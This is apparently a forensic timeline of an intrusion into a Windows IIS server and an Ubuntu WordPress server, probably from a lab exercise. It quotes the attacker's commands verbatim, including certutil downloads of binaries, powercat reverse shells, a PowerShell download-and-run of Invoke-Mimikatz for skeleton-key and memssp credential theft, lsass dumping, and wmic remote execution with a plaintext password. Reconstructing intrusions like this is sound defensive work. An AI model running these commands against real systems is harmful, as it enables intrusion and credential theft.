 # windows ISS server
* 2020/8/4 AM 08:42:33 CVE-2020-0688 (awaiting to determinate)
```
c:\windows\system32\inetsrv\w3wp.exe -ap "ASP.NET v4.0" -v "v4.0" -l "webengine4.dll" -a \\.\pipe\iisipm127dc09c-653d-45f2-8d87-b91abf5fdbce -h "C:\inetpub\temp\apppools\ASP.NET v4.0\ASP.NET v4.0.config" -w "" -m 0 -t 20
```
* 2020/8/4 AM 08:48:26 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` with role ```SYSTEM```

* 2020/8/4 AM 08:51:25 execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```)

* 2020/8/4 AM 09:12:51 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/nt.exe nt.exe``` to download ```nt.exe``` from ubuntu server

* 2020/8/4 AM 09:13 execute ```nt.exe``` with various parameter
    * -help
    * /h

* 2020/8/4 AM 09:16:02 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/bt.exe bt.exe``` to download ```bt.exe``` from ubuntu server

* 2020/8/4 AM 09:16:29 execute ```bt.exe 192.168.1.0/24``` in ```C:\Users\Public\Music\```

* 2020/8/5 AM 07:34:16 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88```

* 2020/8/5 AM 08:58:20 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.2.165```

* 2020/8/5 AM 09:07:15 download string from ```http://10.20.2.206/test.txt``` as ```test.aspx```


* 2020/8/5 PM 10:07:07 create [aspx webshell](https://raw.githubusercontent.com/tennc/webshell/master/aspx/AspxSpy2014Final.aspx) at ```inetpub/wwwroot/UmbracoCms/Umbraco```

* 2020/8/5 PM 10:25:34 RPC ```192.168.1.4``` via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"```


* 2020/8/5 PM 10:26:13 invoke Mimikatz via ```c:\windows\system32\cmd.exe" /c wmic process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'\"``` to create password skeleton key

* 2020/8/5 PM 10:26:25 invoke Mimikatz via ```wmic  process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'\""``` to modify ```lsass.exe```

* 2020/8/5 PM 10:27:32 ```"c:\windows\system32\cmd.exe" /c net use z: \\WIN-LN8SES7K1Q5\C$ /user:TEAMT5\Administrator mimikatz```

# ubuntu wordpress web server
* 03/Aug/2020:09:38:35, ```CVE-2019-9978``` and post shell, bt.exe, nt.exe by ```10.20.3.131```

* 04/Aug/2020:08:49:26, start to ```sqlmap``` by ```10.20.2.227```

* 04/Aug/2020:09:16:31, tunnel (npv) start

* 04/Aug/2020:09:42:07, use tunnel scan internet

* 04/Aug/2020:09:45:56, login wordpress with admin account by ```10.20.2.165```

* 04/Aug/2020:10:23:15, use tunnel request http://192.168.1.3/Umbraco/aaaa.aspx it's old webshell

* 04/Aug/2020:22:15:48, use tunnel request http://192.168.1.2/admine21_decode.php I don't know what it mean

* 04/Aug/2020:23:04:21, use tunnel request http://192.168.1.3/umbraco/AspxSpy2014Final.aspx it's webshell

* 04/Aug/2020:23:07:16, use tunnel request http://192.168.1.3/umbraco/bbbb.aspx it's webshell
